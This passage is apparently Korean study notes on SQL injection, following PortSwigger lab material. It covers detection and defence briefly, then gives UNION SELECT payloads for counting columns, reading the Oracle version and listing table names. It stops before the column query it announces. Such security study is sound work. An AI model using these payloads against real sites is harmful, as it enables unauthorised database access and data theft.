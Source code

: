 

### 2.1.3. 취약성

- **취약성을** **알아내는** **방법** 

Burpsuite scanner 

' 를 보내서 결과를 본다. 

쿼리를 보내본다. OR 1=1나 1=2같은. 

타임딜레이를 시켜본다. 

OAST payload를 보내본다. 

- **방어** 

input을 그대로 쿼리에 사용하지말고, 케이스를 나눠서 준비된 input만 받도록 한다. 

ORM같은 라이브러리를 이용한다. 

 

## 2.2. Examining DB

### 2.2.1. DB의 타입, 버전 알아내기

먼저 칼럼수와 데이터 타입을 알아내야한다. 

아래는 Oracle인데, SQL마다 조금씩 다름. 

https://portswigger.net/web-security/sql-injection/cheat-sheet 

NULL은 모든 데이터 타입이 선택되도록, 그리고 칼럼수를 늘려가면서 앞에 products에서 가져온 데이타의 칼럼과 일치하도록 해야함. 

```sql
UNION+SELECT+NULL+FROM+DUAL-- 
UNION+SELECT+NULL,NULL+FROM+DUAL-- 
UNION+SELECT+NULL,NULL,NULL+FROM+DUAL--
-- NULL 수를 늘려가면서 에러가 나지 않는 개수가 칼럼수이다. 
-- 앞에 ' 를 붙여서 닫아주고, 끝에 --를 붙여서 뒤를 무시해줌.
```

`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 

버젼을 알아낸다.  



- **테이블** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 

- \<oracle> 
  - `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` 

- 모든 테이블 이름을 가져온다. 
- 테이블 이름을 보고, 유저 정보가 있을 법한 애들을 아래와 같은 쿼리로 칼럼을 가져온다.  

